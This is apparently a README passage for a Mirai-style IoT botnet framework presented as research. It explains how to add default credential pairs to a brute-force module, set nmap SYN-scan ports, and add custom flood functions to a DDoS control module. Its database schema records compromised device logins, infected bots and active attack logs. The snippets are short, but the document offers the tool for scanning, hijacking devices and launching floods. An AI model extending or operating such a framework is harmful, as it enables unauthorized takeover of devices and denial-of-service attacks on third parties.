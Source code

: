 ## 🔧 **Customization**

### **Add New Credentials**
```bash
# Edit modules/bruteforce.py
nano modules/bruteforce.py

# Add to credentials list:
('newuser', 'newpass'),
('iotdevice', 'default123'),
```

### **Modify Scan Ports**
```bash
# Edit modules/scanner.py
nano modules/scanner.py

# Update port list:
results = self.nm.scan(target_network, '22,23,80,554,8080,1883', '-sS -T4')
```

### **Custom Attack Types**
```bash
# Edit modules/ddos_control.py
nano modules/ddos_control.py

# Add new attack function
def custom_flood(self, target_ip):
    # Your custom attack implementation
```

## 📊 **Research Database Schema**

The framework creates a comprehensive SQLite database (`research_db.sqlite`) with four main tables:

### **Database Tables**
```sql
-- Network reconnaissance results
discovered_devices (id, ip_address, port, service, banner, timestamp)

-- Successful credential attacks
compromised_devices (id, ip_address, port, username, password, service, timestamp)

-- Botnet infection tracking
infected_devices (id, ip_address, status, bot_version, last_contact, timestamp)

-- DDoS attack coordination logs
attack_logs (id, attack_type, target_ip, source_devices, status, start_time, end_time)
```

### **Data Analysis Examples**
```bash
# View database contents
sqlite3 research_db.sqlite

# Example queries:
.tables
SELECT * FROM discovered_devices;
SELECT COUNT(*) FROM compromised_devices;
SELECT * FROM attack_logs WHERE status='active';
```
